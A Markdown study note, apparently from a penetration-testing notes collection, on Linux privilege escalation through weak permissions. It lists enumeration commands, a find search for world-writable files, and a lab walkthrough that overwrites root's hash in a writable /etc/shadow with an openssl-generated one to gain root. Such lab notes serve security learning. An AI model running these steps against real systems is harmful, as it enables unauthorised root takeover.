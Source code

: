 # Linux Privilege Escalation: Weak Permissions

## Contents
- []()
- []()
- []()
- []()
- []()
- []()

## Intro
- Remember: [The LinEnum Bash script](../1_Local_Enumeration/nix_automating_local_enum.md#a-linux-local-enum-script) automates common Linux local enumeration checks in addition to identifying privilege escalation vulnerabilities.
- There are multiple ways to elevate privileges in Linux. This page does not cover them all.
  - This following just covers the IDEA of how important privileges are on Linux
  - Misconfigurations can be exploited

## Standard Local Enumeration
- Start with some general commands to get an idea of what you're dealing with.
```
whoami
cat /etc/passwd    # what other users exist on the system; only other logon: root
groups             # list out the groups
cat /etc/group     # most are for services
groups student     # see what groups your account forms part of
```

## Find Files with Weak Perms
```
find / -type f -perm -666 2>/dev/null
```
- `/` : from the root of the file system, down into every subdir
- `-type` : what are we looking for? what type of thing?
- `f` : files (not directories, pipes, etc.)
- `-perm` : search for files with the following perms
- `-666` = rw-rw-rw-
  - The `-` (i.e., `-666`) says "at least" (and more, doesn't matter; anything 666 and up)
- `2>/dev/null` : send STDERR to /dev/null

## Scenario: /etc/shadow
> This is from a lab. The above search found /etc/shadow was misconfigured with weak perms and could be written to by any user.

**Remember:** [Linux Post-Exploitation Hash Dumping](../6_Dump_n_Crack/nix_dump_n_crack.md)

```
$ cat /etc/shadow
root:*.17764:0:99999"7:::
# and others...
```

### Create a New Password Hash

#### How to manually hash a password in Linux:
  - [How to hash passwords on Linux](https://linuxconfig.org/how-to-hash-passwords-on-linux)
  - [Manually generate password for /etc/shadow](https://unix.stackexchange.com/questions/81240/manually-generate-password-for-etc-shadow)
- There are several methods:  mkpasswd, python, and openssl
 
#### OpenSSL to Has a Password
- General Syntax (from the [general man page](https://linux.die.net/man/1/openssl))
```
openssl command [ command_opts ] [ command_args ] 
```
- Syntax, passwd command (from the [passwd man page](https://www.openssl.org/docs/man1.1.1/man1/openssl-passwd.html))
```
openssl passwd -# -salt [xyz] [yourpass]
openssl passwd -1 -salt 123 p@ssw0rd!      # results in a hash value 
```
- The number (`-#`) can be 1, 5, or 6 (see the linked man page)
  - `-1` : MD5 (weakest)
  - `-5` : SHA256 (pretty good)
  - `-6` : SHA512 (best)
- The `-salt` option requires a string as an argument (your choice)
- The final argument is your password of choice

### The Hack: Password Replacement
- Copy and paste the hash value from opensll into the hash field of root in /etc/shadow
  - That is the second field, after the username (root) and the first delimiting colon (`:`)
  - There is an asterisk in this field. Replace it with the hash.
  - Use vim or some other text edit. Put the hash in the /etc/shadow password hash field for root. Save. Quit.
```
su -
```
- Enter your p@ssw0rd! and you are root.

